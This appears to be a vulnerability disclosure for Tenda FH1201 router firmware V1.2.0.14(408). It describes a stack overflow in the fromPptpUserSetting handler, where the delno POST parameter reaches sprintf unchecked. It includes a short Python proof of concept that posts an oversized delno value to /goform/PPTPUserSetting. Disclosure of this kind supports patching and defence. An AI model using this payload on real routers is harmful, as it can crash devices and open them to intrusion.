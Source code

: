 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromPptpUserSetting` function. This function accepts the `delno` parameter from a POST request. The statement `sprintf(v9, "vpn.ser.pptpuser%s", s);` leads to a buffer overflow. The user-supplied `delno` can exceed the capacity of the `v9` array, thus triggering this security vulnerability.

![image-20240731140428775](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140428775.png)

![image-20240731140454360](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140454360.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PPTPUserSetting"
payload = b"a"*1000

data = {"delno": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)